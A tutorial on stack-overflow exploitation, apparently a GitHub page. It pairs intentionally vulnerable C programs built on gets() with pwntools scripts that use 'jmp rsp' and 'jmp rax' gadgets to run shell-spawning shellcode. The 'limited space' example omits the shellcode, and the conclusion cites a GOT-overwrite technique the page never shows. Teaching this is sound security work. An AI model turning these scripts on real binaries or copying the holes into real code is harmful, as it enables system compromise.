 ## Reliable Shellcode Exploitation

### Introduction
This document explains reliable shellcode exploitation techniques across different scenarios, **RSP manipulation**, and **ret2reg** for exploiting vulnerabilities in binaries.

### **RSP Manipulation (Shellcode with RSP)**

**Vulnerable Code Example:**
```c
#include <stdio.h>

int test = 0;

int main() {
    char input[100];

    puts("Get me with shellcode and RSP!");
    gets(input);

    if (test) {
        asm("jmp *%rsp");
        return 0;
    } else {
        return 0;
    }
}
```

Here, RSP can be manipulated, allowing us to pivot execution to shellcode directly placed in memory.

**Exploitation Process:**
1. Locate a `jmp rsp` gadget (typically using `ROPgadget`).
2. Overflow the buffer, setting up RSP to point to the shellcode.
3. Jump to the shellcode via `jmp rsp`.

**Exploitation Code:**
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

# Find a 'jmp rsp' gadget in the binary
jmp_rsp = next(elf.search(asm('jmp rsp')))

payload = flat(
    'A' * 120,                # Padding
    jmp_rsp,                  # RSP points to shellcode
    asm(shellcraft.sh())      # Shellcode
)

p.sendlineafter('RSP!\n', payload)
p.interactive()
```

**Limited Space Exploit:**
If the buffer space is limited, adjust RSP using a small offset, then jump to the shellcode.

**Exploitation Code with Small Offset:**
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

jmp_rsp = next(elf.search(asm('jmp rsp')))

payload = b'A' * 120
payload += p64(jmp_rsp)
payload += asm('''
    sub rsp, 128;  # Adjust RSP
    jmp rsp;
''')  # Use the calculated RSP offset

p.sendlineafter('RSP!\n', payload)
p.interactive()
```

---

### **ret2reg (Using Registers to Control Flow)**

In this method, we target functions like `gets()` that return a pointer, and we exploit this by jumping to the address stored in a register, such as `RAX`. The reason RAX is the most common for this technique is that, by convention, the return value of a function is stored in RAX. For example, take the following basic code:

**Vulnerable Code Example:**
```c
#include <stdio.h>

void vuln() {
    char buffer[100];
    gets(buffer);
}

int main() {
    vuln();
    return 0;
}
```

**Analysis:**
1. The `gets()` function stores the buffer's address in `RAX`.
2. We search for a `jmp rax` gadget to jump to the shellcode stored at `RAX`.

**Exploitation Code:**
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

JMP_RAX = 0x40109c  # Found 'jmp rax' gadget address

payload = asm(shellcraft.sh())  # Shellcode
payload = payload.ljust(120, b'A')  # Padding
payload += p64(JMP_RAX)  # Jump to RAX (points to our shellcode)

p.sendline(payload)
p.interactive()
```

---

### **Conclusion**

These methods showcase various reliable ways of exploiting vulnerable binaries. Techniques like GOT overwrite, RSP manipulation, and ret2reg offer robust exploitation strategies even in the face of defenses like ASLR and PIE.
